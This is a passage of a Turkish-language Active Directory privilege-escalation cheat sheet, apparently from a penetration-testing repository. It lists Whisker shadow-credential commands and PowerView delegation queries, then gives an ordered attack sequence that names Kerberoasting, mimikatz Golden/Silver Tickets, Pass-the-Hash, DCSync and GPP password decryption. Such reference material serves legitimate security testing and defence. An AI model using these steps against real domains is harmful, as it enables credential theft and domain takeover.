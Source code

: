 ```powershell
Find-LAPSDelegatedGroups
```

---

### 2.10. Shadow Credentials

#### `Whisker`
**Amaç:** Shadow Credentials oluşturur ve kullanır.

```bash
Whisker create /target:<target_user> /certificate:<path_to_cert>
```

---

### 2.11. Zafiyetli Servislerin Kullanımı

#### `Unconstrained Delegation`
**Amaç:** Unconstrained Delegation zafiyetini kullanarak yetki yükseltme yapılır.

```powershell
Get-DomainComputer -Unconstrained
```

#### `Constrained Delegation`
**Amaç:** Constrained Delegation yapılandırmalarını analiz eder.

```powershell
Get-DomainUser -TrustedToAuth
```

---

## 3. Yöntemlerin Sıralı Uygulaması

1. **Local Admin yetkilerini kontrol et:**
   - `Find-LocalAdminAccess`
   - `net localgroup administrators`

2. **Kerberos ile yetki yükseltme:**
   - `GetUserSPNs.py`
   - `Invoke-Kerberoast`

3. **Golden ve Silver Ticket saldırıları:**
   - `mimikatz`

4. **Pass-the-Hash saldırısı:**
   - `Invoke-TheHash`

5. **DCSync saldırısı:**
   - `lsadump::dcsync`

6. **GPP zafiyetlerini keşfet:**
   - `gpp-decrypt`
   - `Invoke-SearchGPPPassword`
